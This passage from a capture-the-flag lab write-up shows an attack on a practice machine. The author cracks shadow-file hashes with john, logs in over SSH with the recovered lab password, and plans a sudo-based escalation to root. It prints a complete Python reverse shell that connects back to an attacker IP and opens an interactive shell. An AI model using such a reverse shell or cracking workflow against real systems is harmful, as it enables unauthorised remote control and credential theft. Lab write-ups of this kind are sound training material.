 Great! inside of the shadow.backup there is the hash for both sammy and sunny. Time to crack them.

I copied both users hashes into a new file and named it hashes on my local machine and then used john to crack them.

```text
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

![](.gitbook/assets/vmplayer_mksklgjqwv.png)

Pretty quickly we get both users passwords. We can pretty much ignore sunnys password as we already knew it. However now that we know sammy's password is `cooldude!` we can ssh in as them.

```text
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
```

Using pretty much the same command before except with the username changed ssh into the machine as sammy with their password.

On the desktop is the user.txt file.

![](.gitbook/assets/vmplayer_zrejp3mjby.png)

### Privilege Escalation to Root

Once again using the comamnd `sudo -l` we see that the user has permission to run a command with root privellages without the need for the root password.

![](.gitbook/assets/vmplayer_qwmghlml8s.png)

Now there are many ways to abuse this to gain root access. How I decided to do it was to download a reverse shell using wget and then execute it to gain root permissions.

First thing I did was to make the reverse shell code. I decided to make it in python and call it reverse\_shell.py.

```text
#!/usr/bin/python

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.21",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```
